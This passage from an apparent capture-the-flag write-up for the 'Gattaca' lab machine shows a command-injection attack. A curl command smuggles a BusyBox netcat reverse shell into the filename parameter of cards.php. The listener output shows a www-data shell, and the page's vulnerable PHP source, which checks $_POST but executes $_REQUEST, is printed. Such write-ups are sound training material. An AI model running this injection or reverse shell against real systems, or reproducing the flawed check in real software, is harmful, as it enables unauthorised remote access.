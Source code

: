 ![Firefox - Reverse Shell Generator (`https://www.revshells.com/` BusyBox)](./assets/screenshots/vulnyx_gattaca_firefox_reverse_shell_generator_busybox.png)

```
┌──(nabla㉿kali)-[~]
└─$ payload="busybox+nc+192.168.247.128+1337+-e+/bin/bash"; curl -s "http://192.168.247.225/cards.php?filename=adenine.txt;$payload" -X GET --user 'admin:admin12345'
```

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.225] 56516

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
ls -l

total 44
-rw-r--r-- 1 www-data www-data 4369 May 12  2024 about.html
drwxr-xr-x 2 root     root     4096 May  8  2024 cards
-rw-r--r-- 1 root     root     4159 May  8  2024 cards.php
drwxr-xr-x 2 www-data www-data 4096 May  8  2024 css
drwxr-xr-x 4 www-data www-data 4096 Mar 16  2018 font-awesome
drwxr-xr-x 3 www-data www-data 4096 Mar 16  2018 fonts
drwxr-xr-x 3 www-data www-data 4096 May  8  2024 images
-rw-r--r-- 1 www-data www-data 3143 May  8  2024 index.html
drwxr-xr-x 2 www-data www-data 4096 Mar 16  2018 js
```

```php
<?php
$folder = "/var/www/gattaca/cards";
$files = scandir($folder);
$files = array_diff($files, array('.', '..'));
foreach ($files as $files) {
echo "<li>$files</li>";
}
if (isset($_REQUEST['filename'])) {
if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
	  $output = shell_exec("cat " . $_REQUEST['filename']);
	  echo "$output";
} else {
		echo "Malicious Request Denied!";
}
}
?>
```
